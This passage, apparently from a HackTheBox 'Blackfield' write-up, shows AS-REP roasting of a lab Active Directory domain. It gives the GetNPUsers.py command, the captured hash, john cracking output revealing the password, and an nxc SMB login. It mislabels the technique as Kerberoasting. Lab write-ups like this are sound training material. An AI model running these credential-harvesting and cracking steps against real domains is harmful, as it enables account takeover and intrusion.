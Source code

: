 The usernames from the `profiles$` share have been parsed and saved to `user_list` for use with tools like `kerbrute`.

```bash
cat users.txt | awk '{print $1}'>user_list
```

The `GetNPUsers.py` command is executed to perform Kerberoasting and identify users with Kerberos pre-authentication disabled, saving any retrieved TGTs to `userhash.txt`

```bash
GetNPUsers.py BLACKFIELD.local/ -usersfile user_list -dc-ip 10.129.229.17 -outputfile userhash.txt
```

The command successfully retrieves a Kerberos TGT for the user `support` who has Do Not Require Pre-Authentication (DONT_REQ_PREAUTH) set. The hash is saved for cracking.

```bash
$krb5asrep$23$support@BLACKFIELD.LOCAL:8c58dd4f193c36625015db9f54eed737$ef665c8ba86e38ec5ec6ce135c82ccb2a4eadd06f42107652d5022df5955e72f5558c0f22a146c02036671ace387b78735d5ad7f61a978cc0a29698a9739d1cce920b09e335bf833b0c49ae0058833623499b47cf4233bc6076a376ce7846c83ef739071b3b145df8fd4cbc4af08c49178ec863cd0a9d3c1471f4396cbc8710b09c18c09c067e01810734a1dc0e5f084815cb93bf75fe52d274f60b397d6a427c7df1be929af22285f18dca6d7e8627803bd80074df14d5eb41297a1b1d33c84e74bd1d6360f0aecbbc4b9bf4bb0abf9d0ea06b4fa3a419c59fcd7182706938ea146da1de6de17fd4a0fe2df23f5ed744c82e14f
```

The password for the user `support` has been successfully cracked as `#00^BlackKnight`.

```bash
john  --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
#00^BlackKnight  ($krb5asrep$23$support@BLACKFIELD.LOCAL)     
1g 0:00:00:28 DONE (2025-10-30 05:53) 0.03510g/s 503158p/s 503158c/s 503158C/s #1ByNature..#*burberry#*1990
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 


```

SMB login successful with the credentials `support`:`#00^BlackKnight`.

```bash
 nxc smb  10.129.229.17   -u 'support' -p '#00^BlackKnight'

SMB         10.129.229.17   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False) 
SMB         10.129.229.17   445    DC01             [+] BLACKFIELD.local\support:#00^BlackKnight 
                         
```

WinRM login for user `support` failed. Access is denied via this protocol.

